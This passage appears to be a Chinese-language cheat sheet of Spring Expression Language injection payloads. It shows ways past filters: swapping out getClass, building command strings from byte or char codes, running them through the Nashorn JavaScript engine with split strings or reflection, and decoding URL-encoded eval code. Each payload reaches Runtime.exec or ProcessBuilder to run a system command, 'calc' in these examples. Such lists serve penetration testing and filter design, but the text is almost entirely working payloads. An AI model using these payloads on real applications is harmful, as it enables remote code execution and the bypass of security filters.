 ## 绕过getClass(过滤

```csharp
''.getClass 替换为 ''.class.getSuperclass().class
''.class.getSuperclass().class.forName('java.lang.Runtime').getDeclaredMethods()[14].invoke(''.class.getSuperclass().class.forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null),'calc')
```

需要注意，这里的14可能需要替换为15，不同jdk版本的序号不同

## url编码绕过

```scss
// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符
// byte数组内容的生成后面有脚本
new java.lang.ProcessBuilder(new java.lang.String(new byte[]{99,97,108,99})).start()
// char转字符串，再字符串concat
T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(99)))
```

## JavaScript引擎

```scss
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("s=[3];s[0]='cmd';s[1]='/C';s[2]='calc';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")

T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval("xxx"),)
```

## JavaScript+反射

```javascript
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})),)
```

## JavaScript+URL编码

```perl
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(java.net.URLDecoder).decode("%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29")),)
```

## Jshell
